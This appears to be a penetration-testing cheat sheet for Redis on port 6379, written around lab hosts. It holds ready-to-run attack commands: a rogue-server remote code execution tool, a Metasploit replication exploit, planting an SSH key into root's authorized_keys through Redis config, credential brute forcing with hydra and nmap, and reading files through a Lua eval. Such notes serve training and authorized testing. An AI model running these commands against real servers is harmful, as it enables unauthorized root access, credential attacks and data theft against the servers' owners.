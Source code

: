 # 6379 (Redis)

## Enumeration

### Automatic

#### nmap

```bash
nmap --script redis-info -sV -p 6379 <IP>
```

#### Metasploit

```bash
msf> use auxiliary/scanner/redis/redis_server
```

### Manual

#### Telnet, Netcat, Redis-cli

```bash
telnet <IP> 6379
nc -vn <IP> 6379
redis-cli -h <IP>
```

Commands:

```bash
# Check version info etc. as well as the ability to run commands without auth
INFO
# List all the stored keys.
KEYS *
# Get the value of a stored key
GET <KEY>
# Other
config get *
config get dir
```

#### Curl Gopher

```
curl gopher://demo1.ine.local:6379/_GET%20flag --max-time 1
```

## Exploitation

### Rogue Server

[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server
cd redis-rogue-server/
./redis-rogue-server.py --rhost 192.168.76.69 --lhost 127.0.0.1
# or
python3 redis-rogue-server.py --rhost 192.168.76.69 --rport 6379 --lhost 192.168.49.76 --lport 6379

```

### Unauthenticated Redis Server

#### Metasploit

```bash
msfconsole
search redis
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS <IP>
set LHOST <IP>
set SRVHOST <IP>
exploit
```

### Overwriting Arbitrary Files

#### Redis-cli

```bash
# Generate Key Pair
ssh-keygen
ssh-key
<enter>
<enter>
# Copy key file and place onto Redis server naming it test
# Ex: 1
(echo -e "\n\n"; cat /root/ssh-key.pub; echo -e "\n\n") > key
cat key | redis-cli -h demo2.ine.local -x set test
# Ex: 2
(echo -e "\n\n"; cat ./id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h <IP> -x set ssh_key
cat spaced_key.txt | redis-cli -h 192.168.97.166 -a <password> -x set ssh_key
# Dump the key to the target machine /root/.ssh/ directory using redis-cli
redis-cli -h demo2.ine.local
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
save
# We have successfully uploaded the public key as authorized_keys.
# Access the target machine
ssh -i ssh-key root@demo2.ine.local
```

#### Metasploit

```bash
use auxiliary/scanner/redis/file_upload
set RHOSTS demo2.ine.local
set LocalFile /root/key
set RemoteFile /root/.ssh/authorized_keys
exploit
```

### Attacking Protected Redis

#### Metasploit

```bash
use auxiliary/scanner/redis/redis_login
set RHOSTS demo3.ine.local
exploit
# We found a credential
redis-cli -h demo3.ine.local
AUTH daniel
KEYS *
GET <KEY>
```

### Eval Abuse

> CTF Ex: Doing some research it is found that abuse of the eval and dotfile can be used

```bash
# Get the contents of the user.txt file
redis-cli -h <IP> -p 6379 eval "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\user.txt')" 0

```

## Brute Force

```bash
msf> use auxiliary/scanner/redis/redis_login
nmap --script redis-brute -p 6379 <IP>
hydra –P /path/pass.txt redis://<IP>:<PORT>  # 6379 is the default
```

